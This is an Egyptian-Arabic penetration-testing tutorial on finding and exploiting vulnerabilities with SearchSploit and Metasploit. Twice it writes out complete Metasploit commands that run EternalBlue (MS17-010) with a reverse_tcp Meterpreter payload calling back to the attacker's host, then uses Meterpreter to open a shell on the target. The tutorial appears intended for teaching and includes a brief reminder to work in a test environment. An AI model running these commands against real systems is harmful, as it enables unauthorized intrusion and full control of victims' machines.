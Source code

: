 ### **🔥 استغلال الثغرات (Exploiting Vulnerabilities) – إزاي تدور وتستغل الثغرات؟**

## **📌 يعني إيه استغلال الثغرات؟**

بعد ما تخلص **مرحلة جمع المعلومات (Reconnaissance)** وتعرف الخدمات والبرامج اللي شغالة على الهدف، تيجي أهم خطوة: **تدور على ثغرات فيها وتستغلها عشان تخترق النظام!**

✳️ ببساطة، الثغرات (Vulnerabilities) هي **أخطاء في البرامج أو الخدمات** ممكن يستغلها المخترق عشان يتحكم في النظام أو ينفذ أوامر عليه.

---

## **🎯 إزاي تدور على الثغرات؟**

عشان تعرف إذا كان الهدف فيه ثغرات، بتستخدم أدوات ومصادر مختلفة، زي:

1️⃣ **Exploit-DB** → قاعدة بيانات ضخمة بتجمع الثغرات المعروفة والاستغلالات الجاهزة ليها.  
2️⃣ **SearchSploit** → أداة تشتغل أوفلاين للبحث عن ثغرات من قاعدة بيانات Exploit-DB.  
3️⃣ **Nmap NSE Scripts** → سكربتات بتساعدك تفحص الثغرات خلال البحث عن الخدمات.  
4️⃣ **Metasploit Framework** → أداة قوية جدًا للاستغلال والبحث عن الثغرات أوتوماتيكيًا.  
5️⃣ **CVE Details** → موقع بيعرض تفاصيل الثغرات الأمنية حسب CVE ID الخاص بيها.

---

## **🔎 خطوات البحث عن ثغرة واستغلالها عمليًا**

### **🚀 1. البحث عن الثغرات باستخدام SearchSploit**

📌 لو عرفت إن الهدف بيشغل خدمة معينة، زي **Apache 2.4.49**، ممكن تبحث عن ثغراتها كده:

```bash
searchsploit apache 2.4.49
```

🔹 **هيعرض لك كل الثغرات المرتبطة بالخدمة دي مع تفاصيلها ومساراتها.**

✳️ **لو لقيت ثغرة مناسبة، هتاخد الـ Exploit وتبدأ تجرب تستغلها.**

---

### **🚀 2. البحث عن الثغرات باستخدام Metasploit**

📌 بعد تشغيل Metasploit (`msfconsole`)، ممكن تدور على ثغرات لبرنامج معين:

```bash
search smb
```

🔹 **هيظهر لك كل الثغرات المرتبطة بـ SMB، ولو لقيت ثغرة مناسبة، هتستخدمها.**

---

### **🚀 3. استغلال الثغرة باستخدام Metasploit**

📌 لو لقيت إن الهدف بيستخدم **SMBv1**، تقدر تجرب ثغرة **EternalBlue (MS17-010)** بالشكل ده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 4444
exploit
```

🔹 `set RHOSTS` → بيحدد عنوان IP للهدف  
🔹 `set LHOST` → بيحدد جهازك عشان يستقبل الاتصال العكسي  
🔹 `set PAYLOAD` → بيحدد نوع الحمولة اللي هتنفذ بعد الاستغلال

✳️ **لو الثغرة اشتغلت، هتاخد تحكم كامل في النظام باستخدام Meterpreter!**

---

### **🚀 4. التأكد من نجاح الاستغلال**

📌 بعد تنفيذ الاستغلال، ممكن تستخدم أوامر Meterpreter زي:

```bash
sysinfo  # يعرض معلومات عن النظام
getuid   # يعرض المستخدم الحالي
shell    # يفتح لك Terminal على الجهاز المستهدف
```

🔹 **كده أنت دخلت على النظام بنجاح، وتقدر تكمل مرحلة ما بعد الاختراق!**

---

## **💡 الخلاصة بالمصري:**

1️⃣ **دور على الثغرات في الخدمات والبرامج اللي شغالة على الهدف باستخدام أدوات زي SearchSploit و Exploit-DB.**  
2️⃣ **استخدم Metasploit عشان تدور على ثغرات جاهزة فيها Exploits وتنفذها أوتوماتيكيًا.**  
3️⃣ **بعد تنفيذ الاستغلال، استخدم Meterpreter للتحكم الكامل في الجهاز المستهدف.**  
4️⃣ **اتأكد إنك بتحاول على بيئة اختبار، عشان دي حاجات خطيرة مش هزار!**

---

## **🛠️ الخطوات العملية لاستغلال الثغرات**

✅ **1. البحث عن ثغرات أي برنامج:**

```bash
searchsploit apache 2.4.49
```

✅ **2. البحث عن ثغرات في Metasploit:**

```bash
search smb
```

✅ **3. استغلال ثغرة SMB باستخدام Metasploit:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 4444
exploit
```

✅ **4. التأكد من الاختراق باستخدام Meterpreter:**

```bash
sysinfo
getuid
shell
```

🎯 **بعد تنفيذ الخطوات دي، هتكون قدرت تخترق الهدف بنجاح وتبدأ مرحلة ما بعد الاستغلال (Post-Exploitation)!** 🔥